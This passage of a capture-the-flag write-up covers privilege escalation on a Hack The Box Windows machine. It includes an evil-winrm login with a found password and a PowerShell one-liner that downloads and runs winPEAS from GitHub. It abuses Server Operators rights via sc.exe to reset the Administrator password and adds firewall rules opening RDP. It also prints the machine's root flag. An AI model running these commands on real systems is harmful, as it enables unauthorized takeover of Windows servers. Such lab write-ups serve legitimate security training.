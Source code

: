 
Still no Root flag means we have to escalate our access now.
```
evil-winrm -u 'jorden' -p 'rainforest786' -i 10.10.10.179    
```

![[Pasted image 20241002184740.png]]


![[Pasted image 20241002185019.png]]


![[Pasted image 20241002185539.png]]

So what really stand out here is that it is a member of server operators.

Let's see how to run winpeas or privs check

SO we have to run powershell winpeas and it works (i.e. i wasted my time trying to run x86 and 64 and any)
```
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

As we can see that we have access to sc
![[Pasted image 20241008072610.png]]

So i reset the box simply as instead of getting a reverse shell why don't we directly change the password aka administrator simply
```
sc.exe config browser binpath="C:\Windows\System32\cmd.exe /C net user Administrator HolaA123!!"
```

```
sc.exe qc browser
```

```
sc.exe stop browser
```

```
sc.exe start browser
```


```
evil-winrm -i multimaster.htb -u Administrator -p 'HolaA123!!'
```

Now we simply have to copy the root.txt but we can also get the RDP

```
netsh advfirewall firewall add rule name="RDP" protocol=TCP dir=in localport=3389 action=allow
```

```
netsh advfirewall firewall add rule name="RDP" protocol=TCP dir=out localport=3389 action=allow
```

Root.txt
```
0058fcf18700544a2e17712f784fa6a9
```

![[Pasted image 20241012003036.png]]

